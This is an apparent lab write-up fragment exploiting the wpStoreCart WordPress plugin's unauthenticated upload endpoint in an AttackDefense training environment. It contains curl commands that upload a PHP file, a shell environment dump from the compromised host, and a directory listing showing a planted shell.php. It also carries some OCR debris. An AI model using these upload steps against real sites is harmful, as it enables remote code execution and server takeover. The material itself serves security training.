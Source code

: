 ```
+--------------------+----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
```
```
www-data@attackdefense.com:/app/wp-content/uploads/wpstorecart $ env
SUPERVISOR_GROUP_NAME=apache2
HOSTNAME=attackdefense.com
SHLVL=0
APACHE_RUN_DIR=/var/run/apache2
APACHE_PID_FILE=/var/run/apache2/apache2.pid
LAYOUT=en-us-qwerty
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
APACHE_LOCK_DIR=/var/lock/apache2
LANG=C
SUPERVISOR_ENABLED=1
APACHE_RUN_USER=www-data
APACHE_RUN_GROUP=www-data
base=/tmp/files
APACHE_LOG_DIR=/var/log/apache2
SUPERVISOR_SERVER_URL=unix:///var/run/supervisor.sock
SUPERVISOR_PROCESS_NAME=apache2
PWD=/app/wp-content/uploads/wpstorecart
```

`echo '<?php echo "This is just an upload test php file." ?>' > ./upload_test.php`

`curl https://f3fntfsdrgn4glmki9lin9aib.eu-central-5.attackdefensecloudlabs.com/wp-content/plugins/wpstorecart/php/upload.php --form 'Filedata=@./upload_test.php'`

`curl -s https://f3fntfsdrgn4glmki9lin9aib.eu-central-5.attackdefensecloudlabs.com/wp-content/uploads/wpstorecart/ | htmlq`:
```html
<html><head>
  <title>Index of /wp-content/uploads/wpstorecart</title>
 </head>
 <body>
<h1>Index of /wp-content/uploads/wpstorecart</h1>
  <table>
   <tbody><tr><th valign="top"><img alt="[ICO]" src="/icons/blank.gif"></th><th><a href="?C=N;O=D">Name</a></th><th><a href="?C=M;O=A">Last modified</a></th><th><a href="?C=S;O=A">Size</a></th><th><a href="?C=D;O=A">Description</a></th></tr>
   <tr><th colspan="5"><hr></th></tr>
<tr><td valign="top"><img alt="[PARENTDIR]" src="/icons/back.gif"></td><td><a href="/wp-content/uploads/">Parent Directory</a></td><td>&nbsp;</td><td align="right">  - </td><td>&nbsp;</td></tr>
<tr><td valign="top"><img alt="[   ]" src="/icons/unknown.gif"></td><td><a href="shell.php">shell.php</a></td><td align="right">2024-11-28 14:52  </td><td align="right"> 75 </td><td>&nbsp;</td></tr>
<tr><td valign="top"><img alt="[   ]" src="/icons/unknown.gif"></td><td><a href="upload_test.php">upload_test.php</a></td><td align="right">2024-11-28 14:46  </td><td align="right"> 54 </td><td>&nbsp;</td></tr>📌
   <tr><th colspan="5"><hr></th></tr>
</tbody></table>
<address>Apache/2.4.7 (Ubuntu) Server at f3fntfsdrgn4glmki9lin9aib.eu-central-5.attackdefensecloudlabs.com Port 80</address>

</body></html>
```

---